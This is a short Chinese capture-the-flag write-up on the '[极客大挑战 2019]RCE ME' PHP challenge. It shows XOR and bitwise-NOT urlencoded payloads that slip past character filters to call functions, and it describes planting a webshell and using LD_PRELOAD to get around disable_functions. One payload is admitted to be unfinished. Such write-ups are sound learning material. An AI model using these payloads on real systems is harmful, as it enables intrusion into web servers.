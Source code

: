 # buu摸鱼日记（23）

## [极客大挑战 2019]RCE ME

这个题目在RCE方面是比较有趣的了

即使过了一年，感觉这个题目还是有难度的

这题有几个方法

法1亦或绕过：

```php
?code=妈的我不写了又报错了

$_ = _GET
中间那个就构造了
${_GET}['assert'](${_GET}[命令]);
达到了一句话的效果
(感觉这payload...挺复杂的？)
    
后来看到个简单的（正常）
${%ff%ff%ff%ff^%a0%b8%ba%ab}{%ff}();&%ff=phpinfo
就是${_GET}{phpinfo}();
```

法2：

```php
?code=(~%8F%97%8F%96%91%99%90)();
```

取反urlencode一把梭哈

```php
php -r "echo urlencode(~'phpinfo');"
%8F%97%8F%96%91%99%90⏎ 
```

弄了webshell以后发现啥权限都没有，属实屑webshell

/tmp可上传，然后[利用环境变量LD_PRELOAD来绕过php disable_function执行系统命令](https://wooyun.js.org/drops/利用环境变量LD_PRELOAD来绕过php disable_function执行系统命令.html)

就可以执行readflag，保存到tmp里

https://evoa.me/archives/16/ EVOA师傅的官方wp

